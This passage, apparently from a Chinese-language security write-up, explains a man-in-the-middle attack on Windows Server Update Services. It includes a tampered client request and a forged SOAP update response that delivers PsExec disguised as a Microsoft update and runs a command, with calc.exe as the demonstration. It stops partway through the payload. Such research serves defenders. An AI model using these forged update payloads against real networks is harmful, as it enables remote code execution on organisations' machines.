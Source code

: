         Requires Windows 10 -->
    </Prerequisites>
    <BundledUpdates>
    <UpdateIdentity UpdateID="969e0d46-7f67-4c81-b672-3c1c4a36c00e"
    RevisionNumber="201" />
        </BundledUpdates>
    </Relationships>
    </Xml>  </UpdateInfo>   <!-- End of injected content -->
    </NewUpdates>
    

于是乎，client会就刚刚两个id发出GetExtendedUpdateInfo请求，要求wsus服务器返回详细的安装消息

    
    
    #!xml
    <revisionIDs>
    <int>17999990</int> 
    <int>17999991</int>
    </revisionIDs>
    <infoTypes>
    <XmlUpdateFragmentType>Extended</XmlUpdateFragmentType>
    <XmlUpdateFragmentType>LocalizedProperties</XmlUpdateFragmentType>
    </infoTypes>
    

中间人这时再次将请求包中的两个id剔除，以免wusu服务器因为不存在的更新报错。当wsus服务器响应之后，我们再将响应内容篡改，这次我们加入四个更新标签

    
    
    #!xml
    <soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xmlns:xsd="http://www.w3.org/2001/XMLSchema">
    <soap:Body><GetExtendedUpdateInfoResponse
    xmlns="http://www.microsoft.com/SoftwareDistribution/Server/ClientWebService">
    <GetExtendedUpdateInfoResult>
    <Updates>
    <Update>
    <ID>17999990</ID>
    <Xml>
     <!-- This should be XML encoded inside the Xml tag -->
    <ExtendedProperties DefaultPropertiesLanguage="en"
     Handler="http://schemas.microsoft.com/msus/2002/12/UpdateHandlers/CommandLineI
    nstallation"
    MaxDownloadSize="847040" MinDownloadSize="0">
    <InstallationBehavior RebootBehavior="NeverReboots" />
    </ExtendedProperties>
    <Files>
    <File Digest="HO4/qEGb30y8JmRhJ34/3ZuT3iU=" DigestAlgorithm="SHA1"
    FileName="PsExec.exe" Size="847040" Modified="2015-02-27T15:54:52Z">
    <AdditionalDigest
    Algorithm="SHA256">A2LNbnsxirmkx02vIp8Ru3laLOVT6gJMtJFDRWwnxB0=</AdditionalDig
    est>
    </File>
    </Files>
    <HandlerSpecificData type="cmd:CommandLineInstallation">
    <InstallCommand Arguments="/accepteula cmd /c calc.exe"
    Program="Windows-KB890830-V5.22.exe"
    RebootByDefault="false" DefaultResult="Succeeded">
    <ReturnCode Reboot="true" Result="Succeeded" Code="3010" />
    <ReturnCode Reboot="false" Result="Failed" Code="1603" />
    <ReturnCode Reboot="false" Result="Failed" Code="-2147024894" />
    </InstallCommand>
    </HandlerSpecificData>
     </Xml>
     </Update>
     <Update>